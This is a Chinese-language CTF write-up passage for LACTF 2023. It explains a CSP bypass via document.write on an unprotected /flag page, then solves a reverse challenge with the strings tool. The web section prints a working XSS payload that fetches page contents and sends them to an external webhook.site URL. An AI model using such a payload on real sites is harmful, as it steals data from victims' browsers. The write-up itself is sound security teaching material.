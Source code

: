 不過可以看到網頁中具有 CSP 保護，設定為 `default-src` 為 none 但是 `script-src` 為 unsafe-inline，需要想辦法繞過

由於只有開放 `script-src` 的原因，因此無法使用 `fetch`、`xhr` 之類的東西來送封包，相關權限可以參考[飛飛大佬的介紹](https://ithelp.ithome.com.tw/articles/10223568)

以下參考[這篇官方 wu](https://github.com/uclaacm/lactf-archive/blob/master/2023/web/california-state-police/solve.txt)

回到原始碼部分可以看到，由於 csp 的設定是在 `/flag` endpoint 之後，換言之，`/flag` 的介面是沒有 csp 的，也就可以任意做 xss

但是 `/flag` 介面沒有可以注入的點ㄚ，這就要看到 js 的一個特別的函式 `document.write`，在 [MDN](https://developer.mozilla.org/en-US/docs/Web/API/Document/write) 中可以看到這是用來在 `document.open` 開啟文件後寫入文字的，所以我們可以利用這一個功能在開啟 `/flag` 後寫入 xss 的 payload，要注意的是 `document.write` 的文件中明確寫到加入 `<script>` 標籤可能會有問題，因此我們需要改用 `<img>` 來執行 js，另外一個注意的點是 `document.open` 是 GET 方法，也就是寫入 `no hacking allowed` 的那個頁面

以下是 xss payload
```javascript!
<script>w=window.open("/flag");w.onload=()=>w.document.write(`<img src="" onerror="fetch('/flag',{method:'POST'}).then(x=>x.text()).then(x=>fetch('https://webhook.site/aeaaaacd-9258-4e20-9128-45466111c311?a='+encodeURIComponent(x)))">`)</script>
```

中間的 webhook 需依情況修改

送出 report 後，將 report 網址給 bot，即可在 webhook 上收 flag

由於比賽已結束，無法確認 flag 正確性，以下 flag 僅供參考

`lactf{m4yb3_g1v1ng_fr33_xss_1s_jus7_4_b4d_1d3a}`

## Reverse
### string-cheese
```!
I'm something of a cheese connoisseur myself. If you can guess my favorite flavor of string cheese, I'll even give you a flag. Of course, since I'm lazy and socially inept, I slapped together a program to do the verification for me.

Connect to my service at `nc lac.tf 31131`

Note: The attached binary is the exact same as the one executing on the remote server.
```
附件: `string_cheese`

根據題目名稱提示，使用 `string` 工具列出檔案中的可讀字元，發現這似乎是一個要我們猜起司口味的東西，並且在使用 strings 的同時也列出了一個像是答案的 `blueberry`，因此推測這是正確答案

```
(...省略...)
flag.txt
Cannot read flag.txt.
What's my favorite flavor of string cheese?
blueberry
...how did you know? That isn't even a real flavor...
Well I guess I should give you the flag now...
Hmm... I don't think that's quite it. Better luck next time!
(...省略...)
```

輸入拿 flag

